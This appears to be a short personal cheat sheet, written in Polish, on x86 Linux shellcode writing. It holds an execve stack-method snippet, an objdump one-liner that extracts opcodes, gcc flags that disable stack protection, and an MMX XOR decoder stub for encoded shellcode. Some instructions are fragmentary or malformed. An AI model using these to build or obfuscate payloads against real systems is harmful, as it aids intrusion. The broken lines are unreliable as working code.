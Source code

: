 	mov ecx, esp

-------------------------------------------------
Wykonywanie komend w shellcode. Metoda STACK:

	; wrzucamy null DWORD-a
	xor eax, eax
	push eax

	; PUSH /path/do/komendy, tak, aby była podzielna przez 4, dodając ////
	push 0x{}
	push 0x{} <-- komenda musi być w reverse order, z racji na stack
	push 0x{}

	mov ebx, esp <-- Top of the Stack wrzucamy w EBX

	push eax
	push edx, esp

	push ebx
	push ecx, esp

	mov al, 11
	int 0x80

-------------------------------------------------
OBJDUMP one liner hex extracter:

objdump -d ./xor-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

-------------------------------------------------
GCC Compilation

gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

-------------------------------------------------
Używanie MMX przy xorowaniu:

_start:
	jmp short call_decoder

decoder:
	pop edi
	lea esi, [edi+8]
	xor ecx, ecx
	mov cl, 4

decode:
	movq mm0, qword [edi]
	movq mm1, qword [esi]
	pxor mm0, mm1
	movq qword [esi], mm0
	add esi, 0x8
	loop decode

	jmp short

call_decoder:

	call decoder
	decoder_value: db 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa
	EncodedShellcode: db {shellcode}
